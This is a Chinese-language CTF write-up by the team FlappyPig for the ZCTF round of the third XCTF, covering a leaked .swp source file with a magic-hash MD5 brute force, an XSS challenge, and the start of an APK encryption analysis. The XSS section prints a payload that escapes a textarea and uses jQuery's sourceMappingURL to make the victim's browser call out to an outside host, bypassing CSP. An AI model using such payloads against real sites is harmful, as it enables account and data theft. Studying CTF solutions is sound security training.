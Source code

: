 > 原文链接: https://www.anquanke.com//post/id/85578 


# 【CTF攻略】第三届XCTF——郑州站ZCTF第一名战队Writeup


                                阅读量   
                                **290839**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p4.ssl.qhimg.com/t01bec0b2b778c61131.png)](https://p4.ssl.qhimg.com/t01bec0b2b778c61131.png)

作者：[FlappyPig](http://bobao.360.cn/member/contribute?uid=1184812799)

预估稿费：500RMB

投稿方式：发送邮件至linwei#360.cn，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿



**<br>**

**Misc-Sign in**

据说有12s麒麟臂。

**<br>**

**Web-web100**

网页设计得很简单，首页只返回了ha? 没有其他链接，猜到可能会有源码。尝试过后在.index.php.swp文件中得到php源码

限制flag参数的md5必须为一个固定的0e开头的md5，并在同时在字符串中包含zctf，然后会输出flag。写好代码爆破一番得到zctf00=a8。得到flag

<br>

**Web-Find my eyes**

一开始会觉得是一个博客站，逻辑比较复杂，后来发现其实只有contact.php 文件中有一个留言功能，结合网站部署有csp。猜测是xss漏洞。然后测试4个参数。只有textarea有过滤，其他地方感觉不能正常写入html。然后textarea的过滤相当严格。找了很多用来加载外部资源的html关键字都被过滤。然后大师傅发现是高版本的jquery库，可以利用sourceMappingURL加载外部资源。最后成功的payload是

```
&lt;/textarea&gt;&lt;script&gt;var a=1//@ sourceMappingURL=//xss.site&lt;/script&gt;
```

在服务器的http request里面user-agent中发现flag

**<br>**

**Web-easy apk**

打开APK后发现有两个窗口，一个用于验证用户名密码，一个用于提交邮件，APK会将用户名密码等信息提交到远程服务器做验证，提交前会对用户的输入做一次简单的加密。

加密函数位于libnative-lib.so中的Change函数中，如下，主要是使用密钥对数据进行循环的异或加密。在加密前会将输入字符串逆序。加密后转化为十六进制。
